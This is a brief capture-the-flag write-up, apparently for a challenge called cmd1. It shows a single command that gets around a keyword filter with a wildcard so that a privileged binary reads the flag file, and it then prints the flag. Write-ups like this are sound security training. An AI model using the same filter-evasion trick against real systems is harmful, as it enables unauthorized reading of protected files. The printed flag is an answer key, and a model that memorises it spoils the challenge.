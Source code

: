 We can execute command with pwned authority by using cmd1 binary.

But some commands are filtered.

Exploit command is like below

```
./cmd1 "/bin/cat ./f*"
```

Flag is
```
mommy now I get what PATH environment is for :)
```
